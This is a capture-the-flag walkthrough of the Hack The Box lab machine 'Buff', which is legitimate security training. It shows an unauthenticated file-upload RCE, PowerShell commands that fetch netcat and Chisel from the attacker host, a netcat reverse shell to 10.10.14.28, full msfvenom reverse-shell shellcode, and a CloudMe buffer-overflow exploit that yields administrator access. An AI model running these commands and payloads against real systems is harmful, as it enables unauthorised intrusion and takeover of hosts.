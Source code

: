 # HTB - Buff

#### Ip: 10.10.10.198
#### Name: Buff
#### Rating: Easy

----------------------------------------------------------------------

![Buff.png](../assets/buff_assets/Buff.png)

### Enumeration

I'll kick off enumerating this box by scanning all TCP ports with Nmap:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -p- --min-rate 10000 10.10.10.198 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:16 CDT
Nmap scan report for 10.10.10.198
Host is up (0.072s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Looks like just 2 open ports. Lets look a bit more closely at these using the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ sudo nmap -sC -sV -T4 10.10.10.198 -p 7680,8080
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-01 16:18 CDT
Nmap scan report for 10.10.10.198
Host is up (0.064s latency).

PORT     STATE SERVICE    VERSION
7680/tcp open  pando-pub?
8080/tcp open  http       Apache httpd 2.4.43 ((Win64) OpenSSL/1.1.1g PHP/7.4.6)
|_http-title: mrb3n's Bro Hut
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Apache/2.4.43 (Win64) OpenSSL/1.1.1g PHP/7.4.6

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 58.49 seconds
```

Navigating to the site, we find what appears to be a gym website. I poked around not seeing too much of interest, until I found the Contact page. Looking here I find some more info about the software being used:

![software.png](../assets/buff_assets/software.png)

Not being familiar with this software, first thing I do is look it up using Searchsploit to see if there are any vulnerabilities/ exploits to be found.

![searchsploit.png](../assets/buff_assets/searchsploit.png)

Nice! I'm especially interested in the unauthenticated RCE exploit. You can either download it directly from searchsploit, or go out and grab it from ExploitDB (https://www.exploit-db.com/exploits/48506) Looking at the exploit, the comments state "Gym Management System version 1.0 suffers from an Unauthenticated File Upload Vulnerability allowing Remote Attackers to gain Remote Code Execution (RCE) on the Hosting Webserver via uploading a maliciously crafted PHP file that bypasses the image upload filters."

Interesting. Looking through the Python code, this should be good to just point and fire, with no changes needed.

### Exploitation


I execute the exploit using:

`python2 gym-mgmt-system-rce.py http://10.10.10.198:8080/` 

(I'm using Python2, because this is an old script and I didn't want to have to go through and clean up all the print statements, after the transition to Python3)

The foothold was a breeze. After firing the script I'm presented with a web-shell, where I can grab user.txt.

![user_flag.png](../assets/buff_assets/user_flag.png)

### Privilege Escalation

This web-shell is not the best to work out of, so I'm going to create a reverse shell from the web-shell back to my machine, so I can enumerate more comfortably.

To do this I'll need to transfer a netcat executable to the target machine. First I'll set up a Python webserver and on the target box fetch netcat with:

```text
powershell -c iwr http://10.10.14.28/nc.exe -outfile nc.exe"
```

Now that we have netcat on the target we can easily get a stable reverse shell by issuing:

```text
nc.exe 10.10.14.28 1234 -e cmd.exe
```

Great, now we have a stable, fully interactive shell to work with. 

![stable_shell.png](../assets/buff_assets/stable_shell.png)

Browsing around the machine, I find and interesting executable in Shaun's Downloads folder:

![find_cloudme.png](../assets/buff_assets/find_cloudme.png)

It also looks like the version number is being listed as well. Turning to ExploitDB to see if I can find any public exploits, I quickly find this one: https://www.exploit-db.com/exploits/48389. This is a Python script, which should be pretty straightforward to execute. 

But there is one small hurdle we'll have to get through first. Because this is exploit is written in Python, and Python is not normally installed on Windows machines, we'll need to use a tool like Chisel to tunnel from my machine to the target.

So, lets get the exploit cleaned up and ready to execute and then transfer over Chisel to set up a tunnel.

### Modifying The Exploit

This is a pretty straight forward buffer overflow exploit which will only need  light updating. Looking at the code it looks like the shellcode provided opens up calc.exe, but we want something a bit more useful than that. So what we need to do is utilize msfvenom to create some new shell code that contains a reverse shell back to our box. We can do that as follows:

```text
┌──(ryan㉿kali)-[~/HTB/Buff]
└─$ msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.28 LPORT=4321 -b '\x00\x0A\x0D' -f python -v payload
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 351 (iteration=0)
x86/shikata_ga_nai chosen with final size 351
Payload size: 351 bytes
Final size of python file: 1899 bytes
payload =  b""
payload += b"\xdb\xc8\xd9\x74\x24\xf4\xbd\xbd\xdb\x9d\x98"
payload += b"\x5a\x29\xc9\xb1\x52\x83\xea\xfc\x31\x6a\x13"
payload += b"\x03\xd7\xc8\x7f\x6d\xdb\x07\xfd\x8e\x23\xd8"
payload += b"\x62\x06\xc6\xe9\xa2\x7c\x83\x5a\x13\xf6\xc1"
payload += b"\x56\xd8\x5a\xf1\xed\xac\x72\xf6\x46\x1a\xa5"
payload += b"\x39\x56\x37\x95\x58\xd4\x4a\xca\xba\xe5\x84"
payload += b"\x1f\xbb\x22\xf8\xd2\xe9\xfb\x76\x40\x1d\x8f"
payload += b"\xc3\x59\x96\xc3\xc2\xd9\x4b\x93\xe5\xc8\xda"
payload += b"\xaf\xbf\xca\xdd\x7c\xb4\x42\xc5\x61\xf1\x1d"
payload += b"\x7e\x51\x8d\x9f\x56\xab\x6e\x33\x97\x03\x9d"
payload += b"\x4d\xd0\xa4\x7e\x38\x28\xd7\x03\x3b\xef\xa5"
payload += b"\xdf\xce\xeb\x0e\xab\x69\xd7\xaf\x78\xef\x9c"
payload += b"\xbc\x35\x7b\xfa\xa0\xc8\xa8\x71\xdc\x41\x4f"
payload += b"\x55\x54\x11\x74\x71\x3c\xc1\x15\x20\x98\xa4"
payload += b"\x2a\x32\x43\x18\x8f\x39\x6e\x4d\xa2\x60\xe7"
payload += b"\xa2\x8f\x9a\xf7\xac\x98\xe9\xc5\x73\x33\x65"
payload += b"\x66\xfb\x9d\x72\x89\xd6\x5a\xec\x74\xd9\x9a"
payload += b"\x25\xb3\x8d\xca\x5d\x12\xae\x80\x9d\x9b\x7b"
payload += b"\x06\xcd\x33\xd4\xe7\xbd\xf3\x84\x8f\xd7\xfb"
payload += b"\xfb\xb0\xd8\xd1\x93\x5b\x23\xb2\x91\x91\x25"
payload += b"\x5e\xce\xa7\x39\x4e\xef\x21\xdf\x04\xff\x67"
payload += b"\x48\xb1\x66\x22\x02\x20\x66\xf8\x6f\x62\xec"
payload += b"\x0f\x90\x2d\x05\x65\x82\xda\xe5\x30\xf8\x4d"
payload += b"\xf9\xee\x94\x12\x68\x75\x64\x5c\x91\x22\x33"
payload += b"\x09\x67\x3b\xd1\xa7\xde\x95\xc7\x35\x86\xde"
payload += b"\x43\xe2\x7b\xe0\x4a\x67\xc7\xc6\x5c\xb1\xc8"
payload += b"\x42\x08\x6d\x9f\x1c\xe6\xcb\x49\xef\x50\x82"
payload += b"\x26\xb9\x34\x53\x05\x7a\x42\x5c\x40\x0c\xaa"
payload += b"\xed\x3d\x49\xd5\xc2\xa9\x5d\xae\x3e\x4a\xa1"
payload += b"\x65\xfb\x7a\xe8\x27\xaa\x12\xb5\xb2\xee\x7e"
payload += b"\x46\x69\x2c\x87\xc5\x9b\xcd\x7c\xd5\xee\xc8"
payload += b"\x39\x51\x03\xa1\x52\x34\x23\x16\x52\x1d"
```

With:
`-a` for the architecture
`-p` for the payload
`-b` for the bad-characters (we didn't need to fuzz these ourselves, just use what's in the exploit)
`-f` for the format
`-v` for the variable

After updating the shellcode in the exploit, that should be it for updating the script.

Next, lets use Chisel to set up a tunnel between our machine and the target:

### Chisel

Chisel is my favorite tool for situations like this, because it can be used on both Windows and Linux machines, doesn't require SSH access, and is incredibly straight forward. https://github.com/jpillora/chisel

First things first I need to copy Chisel over to the Buff machine. To do this I'll use the same PowerShell one-liner I used to transfer over netcat:

```text
powershell -c iwr http://10.10.14.28/chisel_1.8.1_windows_amd64 -outfile chisel.exe"
```

After that I'll start up chisel on my box:

```text
┌──(ryan㉿kali)-[~/Tools/pivoting]
└─$ ./chisel_1.8.1_linux_arm64 server -p 8000 --reverse
2023/05/02 15:29:04 server: Reverse tunnelling enabled
2023/05/02 15:29:04 server: Fingerprint 309WBxmCGAhbAagxYAXEhj/f1HJY4GMGfA5zduVlXEk=
2023/05/02 15:29:04 server: Listening on http://0.0.0.0:8000
```

And finally I'll connect back to my server from Buff:

```text
.chisel.exe client 10.10.14.28:8000 R:8888:localhost:8888
```

Cool, we should now have a tunnel to use now. Let's fire off the exploit and grab root.txt:

```text
python cloudme-1112-bof.py
```

and check our netcat listener for a reverse shell as administrator:

![root_flag.txt](../assets/buff_assets/root_flag.png)

Nice!

This was a great easy level box, with a simple foothold and privilege escalation, but gave users the ability to practice tunneling, which makes it more unique and fun. 

Thanks for following along!

-Ryan

-----------------------------------------------------------------------
